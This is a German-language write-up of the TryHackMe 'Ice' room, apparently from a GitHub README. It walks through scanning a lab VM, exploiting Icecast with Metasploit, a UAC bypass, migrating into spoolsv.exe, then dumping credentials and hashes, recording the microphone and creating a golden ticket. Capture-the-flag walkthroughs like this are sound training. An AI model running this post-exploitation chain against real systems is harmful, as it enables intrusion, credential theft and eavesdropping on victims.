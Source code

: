 # TRYHACKME ROOM ICE

![](src/1.png)

Launching scan against target machine.

Icecast wird auf Port 8000 ausgeführt

NMAP identifiziert DARK-PC als Hostnamen für den Computer

Für Antworten der Nummern #1 und #2 des Task 3 des Rooms ICE braucht man folgende Liste [https://www.cvedetails.com/vulnerability-list/vendor\_id-693/product\_id-1194/Icecast-Icecast.html](https://www.cvedetails.com/vulnerability-list/vendor_id-693/product_id-1194/Icecast-Icecast.html)

![](src/2.png)

> Search Icecast

Returnt alle target exploits für den Zielcommand (ICECAST)

Nachdem wir das module ice zur Verwedung gewählt haben (use icecast / use 0) geben wir uns mit show options die Optionen des Moduls ausgeben. Hierbei ist RHOSTS das einzig leere Feld, welches noch nicht gesetzt ist. (RHOST ist die deployte VM (10.10.79.188))

> getuid

Der Icecast Prozess wurde von dem User Dark ausgeführt.

> Sysinfo

Returnt Systeminfos

> Background

Um den jetztig laufenden Prozess in den Background geben

Dann wird mit

> use exploit/windows/local/bypassuac\_eventvwr

der exploit gesetzt.

Nachdem wir uns die options angesehen haben wird die Session mit

> set session 1

die Session gesetzt.

> Run
> Options

Uns fällt auf, dass der LHOST noch falsch ist (sollte ip von Openvpn Verbindung sein)

> Ip addr
> Set LHOST **IP**
> Run
> Sessions 2

Die Session id wird beim run-Befehl ausgegeben

Mit dem Befehl &quot;getprivs&quot; können wir nun überprüfen, ob wir die Berechtigungen erweitert haben.

![](src/3.png)

Mit

> Ps

werden die Prozesse aufgelistet.

Mit

> migrage -N spoolsv.exe

migriert man zu diesem Prozess

> creds\_all

listet alle Anmeldedaten auf

Mit welchem ​​Befehl können wir alle auf dem System gespeicherten Passwort-Hashes sichern?

Mit

> hashdump
 
Wie wäre es, wenn wir von einem am System angeschlossenen Mikrofon aufnehmen wollten?

> Record\_mic

> Golden\_ticket\_create

Erstellt ein golden Ticket, mit dem wir uns überall problemlos authentifizieren können.